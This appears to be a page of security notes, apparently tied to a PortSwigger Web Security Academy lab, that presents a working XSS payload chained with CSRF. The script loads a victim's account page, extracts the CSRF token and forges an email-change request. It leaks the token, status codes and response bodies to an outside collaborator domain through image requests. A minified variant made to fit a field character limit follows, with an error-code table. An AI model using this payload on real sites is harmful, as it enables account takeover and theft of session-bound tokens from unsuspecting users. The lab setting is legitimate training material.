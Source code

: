 # Attacking XSS+CSRF

Example XSS payload (with errorc-checking for debugging) that grabs a CSRF token before submitting a POST request to the target:

```text
<script>
async function exploit() {
  const accURL = '/my-account/';
  const chgURL = '/my-account/change-email';
  const oastURL = 'https://COLLAB_DOMAIN.oastify.com';
  const newEmail = 'x@x.xyz';

  function logOAST(eventType, data = '') {
    let path = `/${encodeURIComponent(eventType)}`;
    if (data) {
      const maxLen = 100;
      let eventDataString = typeof data === 'object' ? JSON.stringify(data) : String(data);
      if (eventDataString.length > maxLen) {
        eventDataString = eventDataString.substring(0, maxLen) + '...[truncated]';
      }
      path += `/${encodeURIComponent(eventDataString)}`;
    }
    new Image().src = oastURL + path;
  }

  logOAST('EXPLOIT_STARTED');

  try {
    const response = await fetch(accURL);
    if (!response.ok) {
      logOAST('ERROR_FETCH_ACCOUNT_PAGE', `Status-${response.status}_${response.statusText}`);
      return;
    }
    const pageHtml = await response.text();
    logOAST('INFO_ACCOUNT_PAGE_FETCHED');
    let csrfToken;

    const parser = new DOMParser();
    const doc = parser.parseFromString(pageHtml, 'text/html');
    const csrfInput = doc.querySelector('input[name="csrf"]');

    if (csrfInput && csrfInput.value) {
      csrfToken = csrfInput.value;
      logOAST('INFO_CSRF_TOKEN_FOUND', csrfToken);
    } else {
      logOAST('ERROR_CSRF_TOKEN_NOT_FOUND');
      return;
    }

    const formData = new URLSearchParams();
    formData.append('email', newEmail);
    formData.append('csrf', csrfToken);

    logOAST('INFO_SUBMITTING_EMAIL_CHANGE');
    const submitResponse = await fetch(chgURL, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: formData.toString(),
    });

    if (submitResponse.ok) {
      logOAST('SUCCESS_EMAIL_CHANGE_SUBMITTED');
    } else {
      const errorText = await submitResponse.text();
      logOAST('ERROR_EMAIL_CHANGE_FAILED', `Status-${submitResponse.status}_${submitResponse.statusText}_Body-${errorText}`);
    }
  } catch (error) {
    logOAST('ERROR_SCRIPT_EXCEPTION', error.message || String(error));
  }
  logOAST('EXPLOIT_FINISHED');
}
exploit();
</script>
```

Here's a minified version to get under a character-limit in the vulnerable field:

```javascript
<script>
async function x(){u1='/my-account/';u2='/my-account/change-email';O='https://COLLAB_DOMAIN.oastify.com';E='x@x.xyz';L=(t,d)=>{let p=encodeURIComponent(t);if(d||d===0)p+=`/${encodeURIComponent(d)}`;new Image().src=O+`/${p}`};L('S');try{r1=await fetch(u1);if(!r1.ok){L('E1',r1.status+"_"+r1.statusText);return}h=await r1.text();L('F1');let tk;P=new DOMParser();D=P.parseFromString(h,'text/html');ci=D.querySelector('input[name="csrf"]');if(ci&&ci.value){tk=ci.value;L('CF',tk)}else{L('E2');return}L('S2');r2=await fetch(u2,{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:`email=${E}&csrf=${tk}`});if(r2.ok){L('OK')}else{et=await r2.text();L('E3',r2.status+"_"+r2.statusText+"_"+et)}}catch(ex){L('EX',ex.message||ex)}L('F')}x()
</script>
```

Error code table:

- `EXPLOIT_STARTED` -> `S`
- `ERROR_FETCH_ACCOUNT_PAGE` -> `E1`
- `INFO_ACCOUNT_PAGE_FETCHED` -> `F1`
- `INFO_CSRF_TOKEN_FOUND` -> `CF`
- `ERROR_CSRF_TOKEN_NOT_FOUND` -> `E2`
- `INFO_SUBMITTING_EMAIL_CHANGE` -> `S2`
- `SUCCESS_EMAIL_CHANGE_SUBMITTED` -> `OK`
- `ERROR_EMAIL_CHANGE_FAILED` -> `E3`
- `ERROR_SCRIPT_EXCEPTION` -> `EX`
- `EXPLOIT_FINISHED` -> `F`

Reference: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>